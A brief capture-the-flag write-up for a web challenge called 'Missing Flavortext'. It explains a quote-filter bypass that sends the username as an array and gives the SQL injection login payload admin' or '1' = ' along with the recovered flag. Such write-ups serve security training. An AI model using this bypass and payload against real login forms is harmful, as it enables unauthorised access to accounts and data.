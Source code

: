 **web/Missing Flavortext**  
We have https://missing-flavortext.dicec.tf and source code index.js  
Review source, in line 34, it have filter ', let bypass it by using array input
```
username[]
```
It's a simple SQL Injection
```
admin' or '1' = '
```
We got the flag
```
dice{sq1i_d03sn7_3v3n_3x1s7_4nym0r3}
```